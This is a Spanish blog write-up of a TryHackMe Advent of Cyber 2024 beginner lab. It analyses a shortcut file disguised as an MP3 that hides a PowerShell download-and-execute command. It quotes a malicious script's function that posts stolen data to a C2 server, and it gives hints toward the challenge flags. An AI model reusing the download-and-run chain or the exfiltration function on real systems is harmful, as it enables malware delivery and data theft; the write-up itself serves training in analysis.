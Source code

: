 ```yaml
---
title: 'AoC 2024: Día 1 - Analizando archivos sospechosos 🔍'
description: 'Resolvemos el reto del día 1 en el Advent of Cyber 2024 organizado por TryHackMe.'
image: '/images/blog/advent-of-cyber-2024/thumbnails/day1.png'
date: '2024-12-01'
author: 'xhetic'
tag: ['TryHackMe', 'Principiante', 'OPSEC', 'Advent of Cyber']
category: 'Writeups'
featured: true
---
```


Bienvenidos al primer día del **Calendario de Adviento de Ciberseguridad 2024** de [TryHackMe](https://tryhackme.com/). Hoy nos enfrentamos a un reto que combina investigación digital y análisis de archivos sospechosos. ¿Listos para descubrir qué se oculta detrás del nombre "Glitch"? Vamos a resolverlo juntos. ¡Manos a la obra!

Room: [Advent of Cyber 2024](https://tryhackme.com/r/room/adventofcyber2024)

## 🕵️ Historia: Una amenaza oculta

**McSkidy** ha detectado una actividad sospechosa relacionada con una web que promete convertir vídeos de YouTube a MP3. Aunque parece inofensiva, hay señales de alerta que nos invitan a investigar más a fondo. Nuestra misión es descubrir qué hay detrás de esta fachada.

### 🎯 Objetivos de aprendizaje

1. Identificar archivos maliciosos vinculados a enlaces sospechosos.
2. Entender los principios de **OPSEC** y errores comunes.
3. Aprender a rastrear y atribuir identidades digitales.

---

## 🔗 Investigación del sitio web

Primero, accede al laboratorio desde tu **AttackBox**. Usa la IP asignada para abrir el sitio en el navegador. A simple vista, parece un sitio legítimo con funcionalidades prometedoras, pero no te dejes engañar.

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img1.png)

### 🚩 Riesgos comunes en sitios de conversión YouTube a MP3

- **Malvertising**: Publicidad maliciosa que explota vulnerabilidades.
- **Phishing**: Trampas para obtener información sensible.
- **Malware embebido**: Archivos contaminados con software malicioso.

Nosotros investigaremos más allá. Para ello, introduce un enlace de YouTube (por ejemplo, [este clásico](https://www.youtube.com/watch?v=dQw4w9WgXcQ)) y haz clic en "Convertir".

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img2.png)

---

## 🗂️ Analizando los archivos descargados

Extrae el contenido del archivo `download.zip`. Encontrarás dos archivos: `song.mp3` y `somg.mp3`. Algo no cuadra con este segundo archivo...

### 📋 Paso 1: Verificando los archivos

Abre la terminal y usa el comando `file` para analizar ambos:

```bash
file song.mp3
```

Y veremos esta respuesta

```bash
song.mp3: Audio file with ID3 version 2.3.0,
contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Este archivo parece normal. Ahora probemos con el segundo:

```bash
file somg.mp3
```

Y la respuesta obtenida es

```bash
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive,
ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

**🧐 Sorpresa**: ¡Es un archivo **.lnk** (acceso directo) disfrazado de MP3!

---

## 🔍 Inspección del archivo .lnk

Para investigar más a fondo, ejecuta `exiftool`:

```bash
exiftool somg.mp3
```

El resultado revela un comando **PowerShell** oculto que descarga y ejecuta un script malicioso (`IS.ps1`) desde un servidor remoto.

- **-ep Bypass -nop**: Evita restricciones de seguridad.
- **DownloadFile**: Utiliza este método para descargar el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)
- **iex**: Ejecuta el script tras descargarlo.

---

## 🕵️‍♂️ Rastreando al atacante

Si analizamos por encima el script **IS.ps1** contiene la firma: **"Created by the one and only M.M."**. Vamos a buscar esta cadena en **GitHub** para ver si encontramos pistas sobre el creador.

```bash
"Created by the one and only M.M."
```

Accede al [resultado de búsqueda en GitHub](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7). Analiza los proyectos relacionados para obtener información sobre el atacante.

---

## 🧩 Preguntas del Reto (Flags)

Para completar este primer desafío del calendario de adviento de TryHackMe, tendrás que responder las siguientes preguntas. A continuación, te explico cómo puedes encontrar cada respuesta sin dar directamente las soluciones.

#### 1️⃣ **¿Quién es el autor de la canción (`song.mp3`)?**

💡 **Pista**: Ejecuta `exiftool song.mp3` en tu terminal. La respuesta estará en el campo `Artist`.

```cmd
T**** R******
```

#### 2️⃣ **¿Cuál es la URL del servidor C2 al que el script malicioso envía la información robada?**

💡 **Pista**: La respuesta se consigue analizando la funcion `Send-InfoToC2Server` en el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1).

```bash
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "****://*********.***/****"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```

#### 3️⃣ **¿Quién es M.M?**

💡 **Pista**: Busca el [repositorio](https://github.com/JoshuaFerando/Mayor-Malware) coincidente con la firma **"Created by the one and only M.M."** en GitHub usando la barra de búsqueda.

```bash
🦹‍♂️ Hi, I’m M.M, also known as M**** M******. I run things in Wareville Town.
```

#### 4️⃣ **¿Cuántos commits tiene el repositorio donde se reportó el problema?**

💡 **Pista**: Una vez encuentrado el [repositorio del script donde la incidencia se produjo](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search) , dirígete a la pestaña **"Commits"**. Allí podrás ver el número exacto de commits realizados.

```bash
* Commits
```

---

## 📝 Conclusión

Este ejercicio nos ha permitido desentrañar cómo un simple archivo puede convertirse en una amenaza seria. Hemos practicado análisis de archivos, investigación OSINT y rastreo de identidades digitales. ¿Has descubierto quién es "Glitch"? ¡Comparte tus resultados en los comentarios!

---

**⚠️ Nota**: Recuerda que este laboratorio es educativo. No intentes ejecutar estos comandos en entornos reales sin las precauciones adecuadas.
